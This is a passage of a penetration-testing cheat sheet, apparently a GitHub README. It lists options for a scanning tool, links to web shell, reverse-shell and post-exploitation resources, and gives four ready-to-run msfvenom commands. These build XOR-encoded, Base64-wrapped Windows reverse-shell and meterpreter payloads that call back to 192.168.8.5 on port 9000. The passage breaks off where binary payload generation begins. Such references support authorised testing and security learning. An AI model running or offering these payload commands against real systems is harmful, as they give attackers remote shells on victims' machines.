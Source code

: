 | -x | Port to connect (default: HTTP=80; FTP=21; TFTP=69) |
| -U | Username (default: 'anonymous') |
| -P | Password (default: 'dot(at)dot.pwn') |
| -M | HTTP Method to use when using the 'http' module (GET, POST, HEAD, COPY, MOVE, default: GET) |
| -b | Break after the first vulnerability is found |
| -C | Continue if no data was received from host |

### Web Shells

Find out more about PHP shells from my other [project](https://github.com/ivan-sincek/php-reverse-shell).

Find out more about Java/JSP shells from my other [project](https://github.com/ivan-sincek/java-reverse-tcp).

### Send a Payload With Python

Find out how to generate a `reverse shell payload` for Python and send it to a target machine from my other [project](https://github.com/ivan-sincek/send-tcp-payload).

## 4. Post Exploitation

### 4.1 Useful Websites

* [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [lolbas-project.github.io](https://lolbas-project.github.io)
* [gtfobins.github.io](https://gtfobins.github.io)

### Generate a Reverse Shell Payload for Windows OS

To generate a `Base64 encoded payload`, use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > payload.txt

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > payload.txt

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw | base64 -w 0 > payload.txt

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw | base64 -w 0 > payload.txt
```

To generate a `binary file`, use one of the following MSFvenom commands (modify them to your need):
